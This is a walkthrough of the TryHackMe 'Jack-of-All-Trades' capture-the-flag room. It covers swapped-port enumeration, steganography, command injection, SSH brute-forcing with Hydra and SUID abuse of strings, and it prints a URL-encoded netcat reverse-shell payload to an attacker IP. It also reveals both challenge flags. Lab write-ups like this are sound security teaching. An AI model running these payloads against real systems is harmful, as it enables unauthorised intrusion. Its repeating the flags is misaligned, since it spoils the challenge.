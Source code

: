 # TryHackMe - Jack-of-All-Trades Write-Up

## 📌 Room Context
- Difficulty: Medium  
- Style: Boot-to-Root  
- Original Event: **Securi-Tay 2020**  
- Skills Tested: Enumeration, encoding/decoding, steganography, brute-forcing, reverse shells, privilege escalation  

---

## 🔎 1. Enumeration

### Nmap Scan
```bash
nmap -sV ip
````
Results:

    Port 22/tcp → Apache (HTTP)

    Port 80/tcp → OpenSSH

👉 Services swapped: web runs on port 22, SSH on port 80.
Accessing Web Service

Firefox blocks HTTP on port 22.
Fix:

    Go to about:config.

    Add 22 to network.security.ports.banned.override.

    Visit:

Always show details

    http://10.10.115.169:22

###🖼 2. Web Enumeration

    Source code → /recovery.php.

    Contains encoded hints: Base32 → Hex → ROT13 and Base64.

    Reveal:

        Password clue.

        Credentials hidden in header.jpg.

###🕵️‍♂️ 3. Steganography

Download image:

Always show details

wget http://10.10.115.169:22/header.jpg

Extract hidden file:

Always show details

steghide extract -sf header.jpg

Found cms.creds with username & password.
###💻 4. Initial Foothold

Login at /recovery.php.
Discovered command injection at ?cmd=.

Test:

Always show details

http://10.10.115.169:22/nnxhweOV/?cmd=id

###🐚 5. Reverse Shell

Start listener:

Always show details

nc -lvnp 4444

Payload (URL-encoded):

Always show details

http://10.10.115.169:22/nnxhweOV/?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.9.0.185%204444%20>%20/tmp/f

Got shell → upgraded with:

Always show details

python3 -c 'import pty; pty.spawn("/bin/bash")'

###🔑 6. User Flag

Found password list in /home/jack/.
Brute-forced SSH on port 80:

Always show details

hydra -l jack -P passwords.txt ssh://10.10.115.169:80

Logged in → user flag inside user.jpg:

move user.jpg to your machine

flag: securi-tay2020_{********************}

### Root Flag

Check SUID binaries:

Always show details

find / -perm -4000 -type f 2>/dev/null

Found /usr/bin/strings.
Read root flag:

Always show details

strings /root/root.txt

Root flag:

Always show details

securi-tay2020_{*****************}

🎯 8. Summary

    Enumeration: Odd ports → HTTP on 22, SSH on 80.

    Exploitation: Encoded hints, stego, CMS creds.

    Foothold: Command injection → reverse shell.

    User: Hydra brute-force SSH.

    Root: Abused SUID strings.

Flags

    User: securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}

    Root: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}

✅ Challenge complete — machine fully compromised.
